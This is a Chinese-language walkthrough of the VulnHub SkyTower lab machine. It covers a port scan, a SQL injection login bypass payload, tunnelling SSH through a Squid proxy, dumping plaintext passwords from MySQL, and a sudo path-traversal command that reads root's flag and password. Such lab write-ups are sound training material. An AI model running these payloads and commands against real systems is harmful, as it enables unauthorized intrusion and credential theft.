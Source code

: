 # Sky Tower

> https://download.vulnhub.com/skytower/SkyTower.zip
>
> vbox虚拟机

靶场IP地址：`192.168.32.8`

![image-20220718150654453](../../.gitbook/assets/image-20220718150654453.png)

扫描对外IP地址：

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.8
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 03:06 EDT
Nmap scan report for 192.168.32.8
Host is up (0.00013s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
3128/tcp open     http-proxy Squid http proxy 3.1.20
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.86 seconds
```

浏览器访问80端口

![image-20220718150740974](../../.gitbook/assets/image-20220718150740974.png)

邮箱输入框输入

```
' || 1=1#
```

![image-20220718150828650](../../.gitbook/assets/image-20220718150828650.png)

```
Username: john
Password: hereisjohn
```

因为22端口被过来，使用squid进行反向代理

```
┌──(root㉿kali)-[~]
└─# proxytunnel -p 192.168.32.8:3128 -d 127.0.0.1:22 -a 2222
```

SSH 会话似乎在连接后立即终止，这可能是由于 .bashrc 文件中指定的命令造成的。决定使用 SCP 下载它来验证这一点，它确实包含一个显示"资金已被提取"并退出 shell 的命令：

![image-20220718151718635](../../.gitbook/assets/image-20220718151718635.png)

```
┌──(root㉿kali)-[~]
└─# ssh john@192.168.32.5 -p 2222 "rm .bashrc"
john@192.168.32.5's password: 
                                                                                                                    
┌──(root㉿kali)-[~]
└─# ssh john@192.168.32.5 -p 2222             
john@192.168.32.5's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jul 18 03:16:03 2022 from localhost
john@SkyTower:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for john: 
Sorry, user john may not run sudo on SkyTower.
```

检查 login.php 文件时，发现一些数据库凭据：

![image-20220718152040734](../../.gitbook/assets/image-20220718152040734.png)

找到一些用户名

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.02 sec)

mysql> use SkyTech
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

mysql> 
```

由于盒子上存在"sarah"用户，因此尝试通过 SSH 验证为 Sarah。遇到了与之前相同的问题，因此也必须为此用户删除 .bashrc ：

```
──(root㉿kali)-[~]
└─# ssh sara@192.168.32.5 -p 2222  "rm .bashrc"
sara@192.168.32.5's password: 
                                                                                                                    
┌──(root㉿kali)-[~]
└─# ssh sara@192.168.32.5 -p 2222              
sara@192.168.32.5's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 08:19:23 2014 from localhost

```

查看sudo列表

```
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
```

这可以通过使用 ../ 来代替读取所有文件来滥用。这可以以多种方式用于潜在地实现 root 级访问，但检查 root 标志将显示 root 用户的密码：

```
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
